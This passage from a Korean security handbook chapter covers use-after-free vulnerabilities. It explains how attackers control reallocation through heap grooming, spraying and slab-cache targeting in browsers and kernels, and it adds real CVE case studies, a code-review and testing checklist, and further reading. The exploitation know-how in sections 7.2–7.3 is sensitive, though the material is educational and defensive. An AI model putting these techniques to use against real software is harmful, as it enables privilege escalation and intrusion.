### 7.2 재할당 제어의 조건

4.2에서 `malloc(24)` 한 번이 바로 옛 청크를 돌려준 것은 세 조건이 우연히 다 맞았기 때문이다. 실제 제품에서는 공격자가 이 셋을 **만들어야** 한다.

| 조건 | 4.2에서 | 실제 제품에서 |
|---|---|---|
| **크기 클래스**: 재할당 요청이 해제된 청크와 같은 bin에 떨어져야 한다 | 요청 24 = 24 | 옛 객체의 크기(`sizeof`)를 알아내고, 공격자가 **크기를 정할 수 있는 할당**(문자열, 배열, 바이너리 블롭)을 그 bin에 맞춘다. glibc tcache는 16바이트 단위 bin이라 24·20·17바이트 요청이 모두 같은 0x20 bin이다. 브라우저는 `ArrayBuffer`·문자열 길이를 바이트 단위로 정할 수 있어 가장 쉽다 |
| **bin 상태**: 해제된 청크가 bin의 **맨 앞**에 있어야 다음 할당이 그것을 받는다 | 0x20 bin에 `s` 하나 | 해제 직후 같은 bin에서 다른 할당·해제가 끼면 순서가 밀린다. 그래서 (1) 취약 객체를 해제하기 **전에** 같은 크기 할당을 반복해 bin을 비워 두고(힙 정리, heap grooming), (2) 해제 직후 같은 크기 할당을 **여러 개** 넣어 그중 하나가 자리를 차지하게 한다(스프레이). tcache는 bin당 7개, 넘치면 fastbin·unsorted로 가므로 어느 bin에 있는지도 봐야 한다([4장 1절](04-heap.md)) |
| **타이밍**: 해제와 사용 사이에 공격자 할당이 **끼어들 수 있는 창**이 있어야 한다 | ②③이 코드에 고정 | 해제와 사용이 한 함수 안에 붙어 있으면 창이 없다. 창을 만드는 것은 콜백(JS `valueOf`, 이벤트 핸들러), 다른 스레드(경쟁 조건), 또는 "해제는 이번 요청, 사용은 다음 요청"인 상태 유지 서버다 |

세 조건이 모두 성립하면 5절의 2′단계가 확정되고, 공격자 데이터가 민감 필드 오프셋에 닿는지(3′)는 레이아웃 계산 문제가 된다.

### 7.3 브라우저와 커널에서는 왜 어렵고 어떻게 하는가 (개념)

**브라우저**는 창(타이밍)은 넓고 크기 제어도 쉬운 대신, 할당자가 UAF를 겨냥해 설계됐다. Chromium PartitionAlloc은 **타입·크기별로 파티션을 나눠** 다른 종류의 객체가 같은 자리를 재사용하기 어렵게 하고, MiraclePtr(`raw_ptr<T>`)이 참조되는 동안 해제된 메모리의 재사용을 막는다(6절). 그래서 익스플로잇은 (1) `raw_ptr`로 감싸지지 않은 포인터 경로(스택 지역 변수, 서드파티 코드, JS 엔진 내부)를 고르고, (2) 같은 파티션에 들어가는 **같은 타입 또는 호환 크기의 객체**를 스프레이하며, (3) 함수 포인터를 바로 덮는 대신 **길이 필드**를 키워 임의 읽기·쓰기 프리미티브를 먼저 만든다. 뒤 단계는 [10장 7절](10-type-confusion.md)의 JS 엔진 흐름과 같아진다. 렌더러 코드 실행 뒤에도 샌드박스가 남으므로, 보고서에서 "렌더러 UAF"와 "샌드박스 탈출"을 구분한다.

**커널**은 반대로 할당자(SLUB)는 단순하지만 창과 크기가 어렵다. 커널 객체는 크기별 **슬랩 캐시**(`kmalloc-32`, `kmalloc-64`, ...)에서 나오고, 전용 캐시를 쓰는 객체는 같은 캐시의 객체로만 재할당된다. 공격자는 (1) 취약 객체가 어느 캐시에서 나오는지 확인하고(`/proc/slabinfo`, 소스), (2) 사용자 공간에서 **크기와 내용을 정할 수 있는 커널 할당**을 그 캐시에 맞춘다. 흔한 것이 `msgsnd`의 메시지 본문, `setxattr`의 값, `userfaultfd`로 멈춰 세운 복사 같은 "elastic object"다. (3) 창은 보통 경쟁 조건이라 CPU 고정(`sched_setaffinity`)과 반복으로 확률을 올린다. 완화 쪽은 캐시를 타입별로 더 쪼개고 무작위화하는 `CONFIG_SLAB_FREELIST_RANDOM`·`RANDOM_KMALLOC_CACHES`, 해제 직후 포인터를 지우는 `init_on_free`, 그리고 함수 포인터 호출을 검사하는 kCFI([10장 6절](10-type-confusion.md))가 있다. 8절의 CVE-2019-2215(binder)와 CVE-2016-0728(keyring)이 이 절차로 익스플로잇됐다.

두 환경의 공통점은 하나다. 익스플로잇의 대부분은 UAF 그 자체가 아니라 **재할당을 통제하는 공학**이고, 그 통제가 가능한지는 할당자 종류·객체 크기·창의 폭이라는 **세 가지 사실**로 결정된다. 보고서에 이 셋을 적으면 "재현 불가"와 "Critical" 사이의 거리가 숫자로 보인다.

## 8. 실제 CVE 사례

| CVE | 제품 | 핵심 | 패치 |
|---|---|---|---|
| [CVE-2019-5786](https://nvd.nist.gov/vuln/detail/CVE-2019-5786) | Google Chrome 72 이전, Blink FileReader | `FileReader`가 읽기 진행 중 반환하는 부분 결과(`ArrayBuffer`)가 내부 버퍼와 메모리를 공유해, JS가 그 버퍼를 들고 있는 동안 C++ 쪽이 해제·재할당. 실제 공격에 사용됨 | [Chrome 릴리스 공지](https://chromereleases.googleblog.com/2019/03/stable-channel-update-for-desktop.html), [crbug 936448](https://crbug.com/936448) |
| [CVE-2019-13720](https://nvd.nist.gov/vuln/detail/CVE-2019-13720) | Google Chrome 78 이전, WebAudio | 오디오 처리 스레드와 메인 스레드 사이의 경쟁으로 해제된 객체 사용. 실제 공격(Operation WizardOpium)에 사용됨 | [Chrome 릴리스 공지](https://chromereleases.googleblog.com/2019/10/stable-channel-update-for-desktop_31.html), [crbug 1019226](https://crbug.com/1019226) |
| [CVE-2022-22620](https://nvd.nist.gov/vuln/detail/CVE-2022-22620) | Apple WebKit (Safari 15.3, iOS 15.3.1) | History API 처리에서 UAF. Apple이 "실제 악용 보고"를 명시 | [Apple 권고 HT213091](https://support.apple.com/en-us/HT213091) |
| [CVE-2019-2215](https://nvd.nist.gov/vuln/detail/CVE-2019-2215) | Android 커널 binder | 스레드 종료 시 epoll 대기열에 남은 `binder_thread`가 해제된 뒤 사용. 앱에서 커널 권한 상승. 실제 악용 | [Android 보안 공지 2019-10](https://source.android.com/security/bulletin/2019-10-01) |
| [CVE-2016-0728](https://nvd.nist.gov/vuln/detail/CVE-2016-0728) | Linux 커널 keyring (4.4.1 이전) | `join_session_keyring` 오류 경로의 참조 누수 → 카운터 오버플로 → 해제 → UAF. 로컬 권한 상승 | [커널 4.4.1 ChangeLog](http://www.kernel.org/pub/linux/kernel/v4.x/ChangeLog-4.4.1), [분석(Perception Point, 2016)](http://perception-point.io/2016/01/14/analysis-and-exploitation-of-a-linux-kernel-vulnerability-cve-2016-0728/) |
| [CVE-2022-2588](https://nvd.nist.gov/vuln/detail/CVE-2022-2588) | Linux 커널 `cls_route` | 핸들 값이 0인 옛 필터를 해시 테이블에서 빼지 않은 채 해제 → 테이블이 댕글링 포인터를 보관 | [패치 논의(netdev)](https://lore.kernel.org/netdev/20220809170518.164662-1-cascardo@canonical.com/T/#u), [ZDI-22-1117](https://www.zerodayinitiative.com/advisories/ZDI-22-1117/) |

**CVE-2019-5786에서 배울 것**: 공개 분석에 따르면 패치는 부분 결과를 돌려줄 때 내부 버퍼를 공유하는 대신 **복사본**을 만들도록 바꿨다. 1.5절 구조 그대로다. JS가 들고 있는 객체와 C++이 들고 있는 객체가 같은 메모리를 공유하면, 둘 중 한쪽의 수명 관리만으로는 안전할 수 없다.

**CVE-2019-2215에서 배울 것**: 커널 패치는 `binder_thread`를 해제하기 전에 그 스레드가 걸어 둔 폴링 대기열 항목을 정리하도록 바꿨다(권고문 및 공개 분석 기준). 1.2절 표의 "소유권 모호"형이다. epoll이 대기열을 통해 객체를 간접 참조하고 있었는데, 해제 코드는 그 참조를 몰랐다. 상류 커널에서는 먼저 고쳐졌지만 Android 기기에는 반영되지 않아 2019년 실제 공격으로 다시 발견되었고, "패치가 제품까지 도달했는가"를 확인하는 [보고 3장 패치 검증](../part8-reporting/03-patch-verification.md)의 사례이기도 하다.

**CVE-2016-0728에서 배울 것**: 패치는 오류 경로에 빠진 `key_put()` 한 줄을 추가했다(ChangeLog 기준). 참조 누수 하나가 반복 호출로 UAF가 되는 경로는 2절의 마지막 패턴 그대로다. 리뷰에서 오류 경로의 `put`을 세는 이유다.

**CVE-2022-2588에서 배울 것**: 패치는 옛 필터를 해제하기 전에 리스트에서 **먼저 제거**하도록 순서를 바꿨다(패치 논의 기준). "컨테이너가 객체를 가리키는데 객체만 지운다"는 1.2절 표의 전형이며, 리뷰에서 "이 객체를 가리키는 자료구조가 몇 개인가"를 세야 하는 이유다.

## 9. 체크리스트

**코드 리뷰할 때**
- [ ] 각 힙 객체의 소유자가 한 곳으로 정해져 있는가? 문서나 타입(`unique_ptr`)으로 드러나는가?
- [ ] 해제 함수 호출 뒤 같은 포인터(또는 복사본)가 쓰이는 경로가 없는가?
- [ ] 참조 카운트 `get`/`put`이 모든 반환 경로(오류 경로 포함)에서 짝을 이루는가?
- [ ] 객체 연산 중간에 콜백·가상 함수·JS 실행이 끼어들 수 있는가? 그 콜백이 객체를 지울 수 있는가?
- [ ] 컨테이너를 순회하거나 요소 참조를 보관한 상태에서 컨테이너를 수정하는 코드가 있는가?
- [ ] 멀티스레드에서 해제와 사용이 같은 락 아래에 있는가?

**테스트할 때**
- [ ] 단위 테스트·퍼징을 ASan 빌드로 돌렸는가? (`-fsanitize=address`)
- [ ] 생성→삭제→사용 순서를 뒤섞는 테스트 케이스가 있는가?
- [ ] ASan 보고서의 할당·해제·사용 세 스택을 보고서에 모두 옮겼는가?

**배포 전**
- [ ] 릴리스 빌드의 할당자 강화(safe-linking, 격리)가 꺼져 있지 않은가?
- [ ] 크래시 보고 수집 경로가 있는가? UAF는 간헐적 크래시로 먼저 나타난다

## 10. 더 읽기

- [CWE-416: Use After Free](https://cwe.mitre.org/data/definitions/416.html), [CWE-415: Double Free](https://cwe.mitre.org/data/definitions/415.html) · 공식 정의
- [AddressSanitizer 문서](https://clang.llvm.org/docs/AddressSanitizer.html) · 보고서 형식, `ASAN_OPTIONS`, use-after-return 검사
- [Chromium: raw_ptr&lt;T&gt; (MiraclePtr/BackupRefPtr)](https://github.com/chromium/chromium/blob/main/base/memory/raw_ptr.md) · 대규모 C++ 코드베이스의 UAF 완화 설계와 비용
- [shellphish/how2heap](https://github.com/shellphish/how2heap) · glibc 버전별 UAF·double free 기법의 실행 가능한 예제
- [The Rust Programming Language, 4장 "Understanding Ownership"](https://doc.rust-lang.org/book/ch04-00-understanding-ownership.html) · 소유권을 언어가 강제한다는 것의 의미
- Perception Point, "Analysis and Exploitation of a Linux Kernel Vulnerability (CVE-2016-0728)", 2016 · 참조 카운트 오버플로형 UAF의 전 과정

## 변경 이력

| 날짜 | 변경 | 기여자 |
|---|---|---|
| 2026-10-21 | 초안(뼈대) 작성 | @anthonynoh5202 |
| 2026-10-22 | 10섹션 본문 작성. ASan 출력·실습 코드 로컬 검증, CVE 6건 확인 | @anthonynoh5202 |
| 2026-10-22 | 기술 검증: CVE 6건 cvelistV5 대조(모두 실존, 제품·버전·참조 링크 일치). uaf.c를 ASan 유무·`s = NULL`·함수 포인터 변형으로 재실행. ASan 보고서의 소스 줄 번호를 실측값(15/12/9)으로 정정, 4단계의 gdb 설명(비정규 주소라 `call` 명령에서 멈춤) 보완 | 검증팀 |
| 2026-10-22 | 독자 테스트 반영: 4.2절을 해제→재할당→함수 포인터 호출 경로 변경까지의 완결 실습(uaf2.c, `-no-pie` 빌드·페이로드·gdb 출력 실측, PIE 대조)으로 교체, 5절 표에 2′·3′·4′ 조건 추가, 7절에 재할당 제어 조건(크기·bin·타이밍)과 브라우저·커널 개념 추가, 10장 타입 혼동 교차 링크, 장 참조 표기 정리 | @anthonynoh5202 |
| 2026-10-23 | 기술 검증(2차): uaf2.c를 본문 플래그로 재빌드해 1~5단계 재실행(`nm` win=0x401204, 같은 주소 재할당, 페이로드로 win 도달, gdb `p *s`·`x/4gx`(0x1011)·`call *%rdx`, PIE 빌드 SIGSEGV) 모두 일치. 7.1 재할당 조건표(tcache 16바이트 bin·7개 상한), 7.2의 MiraclePtr(`raw_ptr.md`의 격리·ref-count 서술)·PartitionAlloc·슬랩 캐시·`CONFIG_SLAB_FREELIST_RANDOM`/`RANDOM_KMALLOC_CACHES`(mm/Kconfig v6.6)·kCFI(arch/Kconfig v6.1 `CFI_CLANG`) 대조. 수정 없음 | 검증팀 |
| 2026-10-23 | 독자 테스트 2차 반영: 7절에 7.1 "tcache double free 검출(`key`) 통과" 실측 추가(`dfree_key.c` 17줄, glibc 2.39에서 abort 대조군과 `key` 덮기 통과·같은 청크 두 번 할당 출력, 크기 클래스·tcache 수·쓰기 위치 조건, 2.26~2.28 무검사·2.29 `e->key = tcache`·2.34 랜덤 `tcache_key`를 `malloc.c` 태그별 소스로 대조, fastbin `fasttop` 대안 실측). 기존 7.1·7.2를 7.2·7.3으로 번호 조정 | @anthonynoh5202 |
